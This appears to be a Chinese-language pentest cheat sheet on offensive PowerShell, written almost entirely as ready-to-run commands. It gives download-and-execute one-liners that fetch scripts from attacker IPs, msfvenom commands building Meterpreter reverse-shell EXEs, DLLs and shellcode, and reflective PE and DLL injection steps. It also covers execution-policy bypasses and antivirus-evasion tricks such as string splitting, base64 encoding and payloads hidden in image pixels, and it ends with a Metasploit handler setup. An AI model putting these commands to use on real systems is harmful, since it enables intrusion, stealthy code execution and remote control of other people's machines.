     查看版本$PSVersionTable
#### 远程执行
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('');Invoke-xxx"
![image](/assets/Pentest_Note/master/img/100.png)
#### 加载exe
	msfvenom生成exe木马
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.107 lport=4444 -f exe > /var/www/html/1.exe  
	使用powersploit的Invoke-ReflectivePEInjection.ps1脚本
	>powershell.exe -w hidden -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/clymberps/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.0.107/1.exe -ForceASLR" 
#### EXE2PS1
	http://192.168.0.107/ps/powersploit/CodeExecution/Convert-BinaryToString.ps1
	将exe转换为base64
	>Import-Module .\Convert-BinaryToString.ps1
	>Convert-BinaryToString -FilePath .\ms15051.exe
![image](/assets/Pentest_Note/master/img/101.png)

	http://192.168.0.107/ps/powersploit/CodeExecution/Invoke-ReflectivePEInjection.ps1
	Invoke-ReflectivePEInjection.ps1文件头部添加
	Function MS15051{
	<#
	.SYNOPSIS    
	.EXAMPLE
    C:\PS> MS15051 -Command "whoami"
	#>
	 [CmdletBinding()]
	    param(
	        [Parameter(Mandatory = $False)]
	        [string]
	        $Command
      )
	$InputString = "文件的base64编码"
	$PEBytes = [System.Convert]::FromBase64String($InputString)
	文件尾部添加
	write-host ("[+] Executing Command: "+$Command)  -foregroundcolor "Green"
	Invoke-ReflectivePEInjection -PEBytes $PEBytes -ExeArgs $Command 
	write-host ("[+] Done !")  -foregroundcolor "Green"
	}
![image](/assets/Pentest_Note/master/img/102.png)

	远程下载执行
	>powershell -nop -w hidden -ep bypass "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.0.107/ps/powersploit/CodeExecution/ms15051.ps1'); MS15051 –Command \"whoami\""
![image](/assets/Pentest_Note/master/img/103.png)
#### 绕过策略
	>powershell Set-ExecutionPolicy Unrestricted需管理员权限，不受限执行
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/Invoke-xxx.ps1');invoke-xxx"
	>powershell -exec bypass -File ./a.ps1&>Import-Module xxx
##### Base64
	>use exploit/multi/script/web_delivery|target=2(PSH)
	&
	>cat payload.txt | iconv --to-code UTF-16LE |base64
	>powershell -ep bypass -enc base64code
##### 写入bat绕过
	powershell -exec bypass -File ./a.ps1 
	将该命令保存为c.bat
##### 拼接拆分字符串
	powershell.exe  
	"
	$c1='powershell -c IEX'; 
	$c2='(New-Object Net.WebClient).Downlo'; 
	$c3='adString("http://192.168.197.192/a.ps1")'; 
	echo ($c1,$c2,$c3) 
	" 
	先将命令拆分为字符串，然后进行拼接。echo修改为IEX执行。
	powershell $c2='IEX (New-Object Net.WebClient).Downlo';$c3='adString(''http://x.x.x.x/a'')'; $Text=$c2+$c3; IEX(-join $Text)
##### Replace替换函数
	powershell -noexit "$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://192.168.0.108/1.ps1'')'.Replace('123','adString');IEX ($c1+$c2)" 
##### HTTP字符拼接绕过
	也可以对http字符进行绕过，同样可以bypass
	powershell "$a='IEX((new-object net.webclient).downloadstring("ht';$b='tp://192.168.197.192/a.ps1"))';IEX ($a+$b)"  
##### 图片免杀
	通过图片免杀执行powershell的脚本Invoke-PSImage.ps1，主要把payload分散存到图片的像素中,最后到远端执行时,再重新遍历重组像素中的payload执行。
	https://github.com/peewpw/Invoke-PSImage
	1900*1200的图片x.jpg。
	C:\>powershell 
	PS C:\> Import-Module .\Invoke-PSImage.ps1 
	PS C:\> Invoke-PSImage -Script .\a.ps1 -Image .\x.jpg -Out .\reverse_shell.png -Web 
	a.ps1是msf木马，-Out 生成reverse_shell.png图片，-Web 输出从web读取的命令。
	将reverse_shell.png移动至web目录，替换url地址。在powershell下执行即可。
##### 加载shellcode
	msfvenom生成脚本木马
	>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.72.164 LPORT=4444 -f powershell -o /var/www/html/test  
	在windows靶机上运行一下命令
	PS >IEX(New-Object Net.WebClient).DownloadString("http://144.34.xx.xx/PowerSploit/CodeExecution/Invoke-Shellcode.ps1") 
	PS >IEX(New-Object Net.WebClient).DownloadString("http://192.168.72.164/test") 
	Invoke-Shellcode -Shellcode $buf -Force  运行木马 
	使用Invoke-Shellcode.ps1脚本执行shellcode
	即可反弹meterpreter shell
##### 加载dll
	使用msfvenom 生成dll木马脚本
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.72.164 lport=4444 -f dll -o /var/www/html/test.dll 
	将生成的dll上传到目标的C盘。在靶机上执行以下命令
	PS >IEX(New-Object Net.WebClient).DownloadString("http://144.34.xx.xx/PowerSploit/CodeExecution/Invoke-DllInjection.ps1") 
	Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden  
	创建新的进程启动记事本，并设置为隐藏
	Invoke-DllInjection -ProcessID xxx -Dll c:\test.dll 使用notepad的PID  
	Msf
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>run